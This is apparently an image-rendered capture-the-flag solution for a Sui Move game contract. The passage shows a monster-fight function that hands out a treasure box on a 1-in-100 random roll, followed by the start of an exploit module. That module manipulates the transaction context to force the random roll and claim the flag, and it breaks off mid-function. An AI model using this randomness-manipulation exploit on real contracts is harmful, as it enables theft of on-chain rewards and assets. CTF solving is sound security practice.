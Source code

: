 ```rs

public entry fun slay_boar_king(hero: &mut Hero, ctx: &mut TxContext) {
    assert!(hero::stamina(hero) > 0, EHERO_TIRED);
    let boar = create_monster<BoarKing>(
        BOARKING_MIN_HP, BOARKING_MAX_HP,
        BOARKING_MIN_STRENGTH, BOARKING_MAX_STRENGTH,
        BOARKING_MIN_DEFENSE, BOARKING_MAX_DEFENSE,
        ctx
    );
    let fight_result = fight_monster<BoarKing>(hero, &boar);
    hero::decrease_stamina(hero, 2);
    // hero takes their licks
    if (fight_result == 1) { // hero won
        hero::increase_experience(hero, 2);

        let d100 = random::rand_u64_range(0, 100, ctx);
        if (d100 == 0) {
            let box = inventory::create_treasury_box(ctx);
            transfer::transfer(box, tx_context::sender(ctx));
        };
    };
    // let the world know about the hero's triumph by emitting an event!
    event::emit(SlainEvent<BoarKing> {
        slayer_address: tx_context::sender(ctx),
        hero: hero::id(hero),
        boar: object::uid_to_inner(&boar.id),
    });
    let Monster<BoarKing> { id, hp: _, strength: _, defense: _} = boar;
    object::delete(id);
}
```

```rs
//Exploit
module exploit_package::attack{
    use game::hero::{
        Hero,
        level_up,
    };
    use game::adventure::{
        slay_boar,slay_boar_king
    };
    use game::inventory::{
        TreasuryBox,
        get_flag
    };
    use ctf::random::{
        rand_u64_range
    };
    use sui::tx_context::{TxContext};

    public entry fun getFlag(box: TreasuryBox, ctx: &mut TxContext){
        let ctx_ = morphContext(ctx);
        if (rand_u64_range(0,100,ctx_) == 0){
            get_flag(box,ctx_);
        }else{
            // TODO: Morph ctx
            get_flag(box,ctx_);
        }
    }
    public entry fun winTreasureBox(hero: &mut Hero,ctx: &mut TxContext){
        let ctx_ = morphContext(ctx);
        if (rand_u64_range(0,100,ctx_)==0){
            let i = 0;
```